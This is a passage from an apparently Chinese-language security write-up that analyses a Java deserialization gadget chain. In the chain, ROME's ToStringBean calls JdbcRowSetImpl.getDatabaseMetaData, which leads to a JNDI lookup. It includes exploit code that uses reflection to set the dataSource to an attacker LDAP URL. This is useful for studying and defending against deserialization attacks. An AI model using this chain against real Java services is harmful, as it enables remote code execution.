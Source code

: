 ### 详细分析

这条链的组合是前半部分不变，修改后半部分，即替换前面的 TemplatesImpl 为 JdbcRowSetImpl，后面的链就会发生变化

同样在 ToStringBean 的 toString 方法中，会调用 getPropertyDescriptors 来获得 JdbcRowSetImpl 的所有公开的 get 方法，然后逐个使用 invoke 调用  
而在 JdbcRowSetImpl 链中的关键是调用 getDatabaseMetaData 方法  
[![](assets/1705886615-4ea04b0a58e5df81f9b401ff9d9a1469.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124955-5b639a46-b74f-1.png)

在 JdbcRowSetImpl 的 getDatabaseMetaData 方法中会调用 connect 方法

```bash
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

进入 connect 方法，会调用 lookup 函数，所以这里的 getDataSourceName 的返回值非常关键，需要是可以利用的 ldap 链接，所以在 exp 中进行如下设置

```bash
// ldap url
String url = "ldap://127.0.0.1:1389/nils4f";

// 创建 JdbcRowSetImpl 对象
JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
dataSource.setAccessible(true);
dataSource.set(jdbcRowSet, url);
```
